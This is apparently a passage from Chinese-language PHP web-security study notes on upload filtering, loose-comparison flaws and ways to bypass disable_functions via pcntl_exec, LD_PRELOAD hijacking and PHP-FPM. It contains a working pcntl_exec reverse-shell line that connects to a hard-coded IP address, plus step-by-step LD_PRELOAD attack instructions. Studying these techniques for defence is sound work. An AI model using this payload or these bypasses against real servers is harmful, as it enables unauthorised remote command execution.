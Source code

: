 判断文件类型时，应结合MIME-Type、后缀检查等方式、推荐使用白名单的方式。

3.用随机数改写:

文件上传如果要执行代码，则需要用户能访问到这个文件。在某些环境下，用户能上传，但是不能访问。

4、php审计思路 ==和===漏洞
在PHP中遇到数字与字符串进行松散比较()时，会将字符串中前几位是数字且数字后面不是”."，“e"或"E"的子串转化为数字，与数字进行比较，如果相同则返回为true，不同返回为false，后面的所有字符串直接截断扔掉。如果字符串数字后面是”." , “e”, “E”，则会有其他结果。两字符串，一个是纯数字型，一个只能出现字符，使两个的md5哈希值相等

"."为浮点数的标志，会将字符串的子串转化为浮点数。 "e"和"E"为科学计数法的标志，将字符串的子串转化为科学计数法。 所以比较出错。
5、代码执行函数，disable_function绕过
系统命令：system,exec,shell_exec,passthru“&、|、||”

代码执行：eval,assert,preg_replace()

disable_functions禁用危险函数，执行代码转义，字符串加引号，禁止文件执行动态代码权限。

绕过
利用黑名单不全绕过：exec()，shell_exec()，system()，passthru()，popen()，proc_open()还有一个比较常见的易被忽略的函数就是pcntl_exec。

PHP安装并启用了pcntl插件  pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。  pcntl_exec()是pcntl插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序。
由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell：

<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
利用php7 mail绕过

利用 LD_PRELOAD 环境变量
LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

想要利用LD_PRELOAD环境变量绕过disable_functions需要注意以下几点：

能够上传自己的.so文件
能够控制LD_PRELOAD环境变量的值，比如putenv()函数
因为新进程启动将加载LD_PRELOAD中的.so文件，所以要存在可以控制PHP启动外部程序的函数并能执行，比如mail()、imap_mail()、mb_send_mail()和error_log()函数等
一般而言，利用漏洞控制 web 启动新进程 a.bin（即便进程名无法让我随意指定），新进程 a.bin 内部调用系统函数 b()，b() 位于 系统共享对象 c.so 中，所以系统为该进程加载共享对象 c.so，想办法在加载 c.so 前优先加载可控的 c_evil.so，c_evil.so 内含与 b() 同名的恶意函数，由于 c_evil.so 优先级较高，所以，a.bin 将调用到 c_evil.so 内的b() 而非系统的 c.so 内 b()，同时，c_evil.so 可控，达到执行恶意代码的目的。基于这一思路，常见突破 disable_functions 限制执行操作系统命令的方式为：

编写一个原型为 uid_t getuid(void); 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 getuid_shadow.so；
运行 PHP 函数 putenv()（用来配置系统环境变量），设定环境变量 LD_PRELOAD 为 getuid_shadow.so，以便后续启动新进程时优先加载该共享对象；
运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 getuid_shadow.so 中的同名 getuid() 所劫持；
达到不调用 PHP 的 各种 命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。
之所以劫持 getuid()，是因为 sendmail 程序会调用该函数（当然也可以为其他被调用的系统函数），在真实环境中，存在两方面问题：

一是，某些环境中，web 禁止启用 sendmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；
二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1 lamp、lamp.、lamp.com）。
PHP-FPM绕过
这里由于FPM默认监听的是9000端口，我们就可以绕过Web服务器，直接构造Fastcgi协议，和fpm进行通信。于是就有了利用 Webshell 直接与 FPM 通信 来绕过 disable functions 的姿势。
